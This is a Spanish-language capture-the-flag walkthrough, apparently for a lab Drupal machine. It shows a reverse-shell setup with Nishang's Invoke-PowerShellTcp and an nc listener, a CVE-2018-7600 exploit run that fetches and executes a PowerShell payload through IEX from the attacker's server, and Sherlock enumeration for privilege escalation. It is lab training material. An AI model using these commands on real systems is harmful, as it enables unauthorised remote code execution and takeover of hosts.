 ```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
mv Invoke-PowerShellTcp.ps1 ps.ps1
```

```bash
vim ps.ps1
#AGREGAR EN LA ULTIMA LINEA
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.13 -Port 4565     
```

```bash
rlwrap nc -lvnp 4565
```

```bash
sudo python3 -m http.server 80
```

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/ps.ps1')"
```

```bash
#OUTPUT
whoami
nt authority\iusr
```

## ESCALADA DE PRIVILEGIOS

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar un método mínimamente ruidoso para la explotación de vulnerabilidades con exploits públicos, por lo que vamos a hacer uso de la utilidad [Sherlock](https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1) del github de [rasta-mouse](https://github.com/rasta-mouse).

```bash
wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
```

Modificar parámetro en el script

```bash
vim Sherlock.ps1
#AGREGAR EN LA ULTIMA LINEA
Find-AllVulns
```

Servicio `http` de python

```bash
sudo python3 -m http.server 80
```

En la máquina víctima ejecutamos

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/Sherlock.ps1')
```

